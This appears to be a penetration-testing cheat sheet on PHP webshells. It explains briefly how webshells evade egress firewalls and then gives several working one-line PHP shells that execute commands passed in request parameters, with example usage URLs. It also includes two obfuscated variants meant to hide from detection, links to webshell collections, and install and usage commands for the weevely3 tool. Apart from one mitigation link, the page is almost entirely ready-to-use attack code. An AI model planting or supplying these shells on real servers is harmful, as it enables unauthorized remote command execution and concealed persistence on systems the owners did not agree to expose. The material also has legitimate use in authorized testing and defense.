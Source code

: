 # Overview
>A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

# All
https://github.com/tennc/webshell

# PHP
https://github.com/bayufedra/Tiny-PHP-Webshell

## Simple
```php
<?=`$_GET[0]`?>
# Usage: http://target.com/path/to/shell.php?0=command

<?=`$_POST[0]`?>
# Usage: curl -X POST http://target.com/path/to/shell.php -d "0=command"

<?=`{$_REQUEST['_']}`?>
# Usage:
# - http://target.com/path/to/shell.php?_=command
# - curl -X POST http://target.com/path/to/shell.php -d "_=command"
```

## Obfuscated
```php
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>
# Usage: http://target.com/path/to/shell.php?0=command

<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>

# Usage: http://target.com/path/to/shell.php?_=system&__=ls
```

## Tools
https://github.com/epinna/weevely3

```bash
# install
git clone https://github.com/tennc/webshell.git
apt-get install -y python3 python3-pip curl
cd weevely3/
pip3 install -r requirements.txt --upgrade

# usage
python3 weevely.py generate <password> <path>
python3 weevely.py <URL> <password> [cmd]
```

# Mitigations
https://github.com/nsacyber/Mitigating-Web-Shells